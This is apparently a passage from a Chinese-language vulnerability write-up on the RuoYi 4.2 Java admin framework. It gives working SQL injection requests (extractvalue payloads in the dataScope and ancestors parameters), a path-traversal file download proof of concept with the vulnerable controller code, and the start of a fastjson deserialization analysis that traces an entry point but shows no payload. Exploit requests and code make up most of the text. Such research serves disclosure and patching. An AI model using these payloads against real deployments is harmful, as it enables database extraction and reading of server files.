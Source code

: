 ```
POST /system/role/list HTTP/1.1

params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))
```
（2）注入点为`ancestors`，如下
```
POST /system/dept/edit HTTP/1.1

DeptName=1&DeptId=100&ParentId=12&Status=0&OrderNum=1&ancestors=0)or(extractvalue(1,concat((select user()))));#
```

### 任意文件下载

漏洞定位CommonController，代码如下
```
@GetMapping("/common/download/resource")
    public void resourceDownload(String resource, HttpServletRequest request, HttpServletResponse response) throws Exception
    {
        String localPath = Global.getProfile(); // 本地资源路径 xxx/uploadPath
        String downloadPath = localPath + StringUtils.substringAfter(resource, Constants.RESOURCE_PREFIX); // 数据库资源地址
        String downloadName = StringUtils.substringAfterLast(downloadPath, "/"); // 下载名称
        ...
        FileUtils.writeBytes(downloadPath, response.getOutputStream()); // 文件下载
    }
```
downloadPath会将`/profile`后的路径提取出来，然后和本地资源路径进行拼接，所以downloadPath需要为`/profile/xxx`。downloadName则是将最后一个`/`后的内容提取出来。

这里需要提一个知识点，一般常见的传参方式都是在方法参数前加入`@RequestParam、@PathVariable、@RequestBody`，如果是为非注解的方式传参，参数名称需要保持一致。

POC如下
```
GET /common/download/resource?resource=/profile/../pom.xml HTTP/1.1
```

### fastjson_rce

fastjson在若依4.2中的版本是1.2.60。搜索parseObject的调用，其中一个点如下，位于`GenTableServiceImpl`
```java
public void validateEdit(GenTable genTable)
{
    if (GenConstants.TPL_TREE.equals(genTable.getTplCategory())) // tplCategory属性值需要为tree
    {
        String options = JSON.toJSONString(genTable.getParams()); // 获取params属性，用fastjson进行解析
        JSONObject paramsObj = JSONObject.parseObject(options);
        ...
    }
}
```
再向上搜索入口点，即路径为`/tool/gen/edit`，参数为GenTable类型
```java
@RequiresPermissions("tool:gen:edit")
@Log(title = "代码生成", businessType = BusinessType.UPDATE)
@PostMapping("/edit")
@ResponseBody
public AjaxResult editSave(@Validated GenTable genTable)
{
    genTableService.validateEdit(genTable); // 调用
    genTableService.updateGenTable(genTable);
    return AjaxResult.success();
}
```